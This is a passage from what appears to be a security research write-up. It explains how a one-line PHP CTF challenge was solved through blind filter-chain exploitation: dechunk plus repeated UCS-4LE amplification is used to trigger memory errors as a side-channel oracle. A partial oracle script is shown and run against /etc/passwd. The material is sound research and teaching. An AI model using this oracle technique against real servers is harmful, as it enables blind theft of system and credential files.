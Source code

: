 And just when everyone thought solving one tough problem was impressive
enough, @hashkitten quickly took filter chains to another whole new level.
He created what might be the shortest PHP challenge ever:

</PRE>

***=> minimal-php***

<br>

```php
<?php file($_POST[0]);
```
<PRE>


At first glance, you might think it's just a typical Arbitrary File Read
(AFR). But the real twist here was figuring out how to exploit it with no
output at all. Unsurprisingly, nobody managed to solve this challenge
during the competition. It wasn't until @hashkitten revealed his solution
[66] that everyone realized they needed to completely redefine what they
understood about filter chains.

The entire attack was built around another idea - since filter chains can
already *filter* the content (just like Base64 ignores invalid
characters), could there be any way to leak the result as well? Actually,
by intentionally hitting PHP's memory allocation limit, @hashkitten was
able to trigger an error! To demonstrate that his idea worked, he came up
with two brand-new filters:


    - [ Filtering ]:  The `dechunk` filter removes an entire line if it
                        doesn't start with hexadecimal.

    - [ Amplifying ]: The `convert.iconv.UCS-4LE` encoding expands the
                        string length by four times.


So by first applying the `DECHUNK` filter, and then amplifying the result
over and over, you can turn PHP's behavior into a side-channel oracle - to
figure out whether the file's first character is within the valid
hexadecimal range or not!

</PRE>

***=> Use PHP Error as an Oracle!***

<br>

```perl
=> [1] Preparing the Oracle filter chains...
$ cat check-first-char-is-hex.php
  <?php
      file(implode('|', [
          // [*] becomes empty if the first byte is not in hexdigits
          'php://filter/dechunk',

          // [*] repeat many times as needed
          'convert.iconv.L1.UCS-4LE',
          'convert.iconv.L1.UCS-4LE',
          'convert.iconv.L1.UCS-4LE',
          // [...]

          // [*] append the target
          'convert.iconv.L1.UCS-4LE/resource=' . $argv[1]
      ]));

|-------------------------------- [ next ] -------------------------------|

=> [2] the first byte of `passwd` is not in hexdigits
$ php check-first-char-is-hex.php /etc/passwd
```